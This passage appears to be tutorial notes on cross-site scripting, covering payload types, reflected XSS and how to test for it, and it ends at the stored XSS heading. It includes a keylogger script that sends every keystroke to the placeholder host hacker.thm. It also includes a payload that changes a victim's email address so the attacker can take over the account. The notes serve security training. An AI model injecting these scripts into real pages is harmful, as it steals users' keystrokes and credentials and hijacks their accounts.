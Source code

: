 ```
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```<script>document.onkeypress = function(e) {fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>```

### Business Logic

This payload is a lot more specific than the above examples. This would be about calling a particular network resources or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called ```user.changeEmail()```. You payload could be like: ```<script>user.changeEmail('attacker@hacker.thm');</script>``` Now that the email address for the account has changed, the attacker may perform a reset password attack. The next four 

## Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

### Example Scenario:

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source. 

![image](https://user-images.githubusercontent.com/79100627/167325502-cf3b0197-b649-45b8-ae8e-c19c40f0fa4b.png)

The application does not check the contents of the error parameter, which allows the attacker to insert malicious code. 

![image](https://user-images.githubusercontent.com/79100627/167325561-397fa219-fc5f-4ee8-a125-407ba0bbf9c1.png)

The vulnerability can be used as per the scenario:
![image](https://user-images.githubusercontent.com/79100627/167325626-e0da16e1-514c-415c-bead-11e0e2ad938e.png)

### Potential Impact

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information. 

### How to test for Reflected XSS:

You will need to test every possible point of entry; these include:

- Parameters in the URL Query String 
- URL File Path 
- Sometimes HTTP Headers (although unlikely exploitable in practice) 

Once you have found some data which is being reflected in the web application, you will then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected

## Stored XSS 

As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page. 

### Example Scenario 

```